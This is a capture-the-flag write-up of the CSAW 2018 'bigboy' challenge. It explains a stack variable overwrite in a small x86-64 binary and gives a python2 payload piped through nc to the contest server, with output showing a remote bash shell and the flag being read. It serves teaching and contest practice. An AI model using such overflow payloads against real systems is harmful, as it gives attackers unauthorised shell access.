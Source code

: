 # bigboy CSAW 2018 Qualification Round

Let's start by looking at the file we are given.

```
$ file boi
boi: ELF 64-bit LSB executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, for GNU/Linux 2.6.32, BuildID[sha1]=1537584f3b2381e1b575a67cba5fbb87878f9711, not stripped
```

Okay this is an 64-bit x86 executable file.  Let's run it and see what happens.

```
$ boi
Are you a big boiiiii??
yes
Tue Oct  2 01:20:44 EDT 2018
```

After asking the question, the program is waiting for user input.  Then it appears to just print the date.  Let's put this into IDA and see how this works.

![](ida.png)

As seen in IDA, the program loads 0xDEADBEEF onto the stack, gets 0x18 bytes of user input, loads the value saved to the stack and then compares it with 0x0CAF3BAEE.  If the value on the stack equals 0xCAF3BAEE, it runs /bin/bash, otherwise it runs /bin/date.  Therefore, the goal should be to overrwrite the value on the stack so /bin/bash can be ran.

Next, let's load the program in GDB and use what we learned from IDA to try to run /bin/bash.

![](gdb.png)
As can be seen above, the program is stopped during the call to read.  As can be seen, rsi has the buffer location.  Also, 0xDEADBEEF can be seen in the stack and is also within the 0x18 bytes that read will read in.  Specifically, 0xDEADBEEF is located at 20 bytes into the stack.  Therefore, to run /bin/bash, input 20 lines of padding and then 0x0CAF3BAEE in little endian form since x86 is a little endian.

By doing this we can get /bin/sh to run and get the flag!

```
(python2 -c "print 'A'*20+'\xee\xba\xf3\xca'"; cat) | nc pwn.chal.csaw.io 9000

AAAAAAAAAAAAAAAAAAAA���
 _    ___        ____   ___  _ _ _ _ 
| |__|_ _|__ _  | __ ) / _ \(_|_|_|_)
| '_ \| |/ _` | |  _ \| | | | | | | |
| |_) | | (_| | | |_) | |_| | | | | |
|_.__/___\__, | |____/ \___/|_|_|_|_|
         |___/                       
***************************************
Are you a big boiiiii??
bash: cannot set terminal process group (1): Inappropriate ioctl for device
bash: no job control in this shell
bigboy@52c491e1e9ec:~$ 
bigboy@52c491e1e9ec:~$ cat flag.txt	
cat flag.txt
flag{Y0u_Arrre_th3_Bi66Est_of_boiiiiis}
```
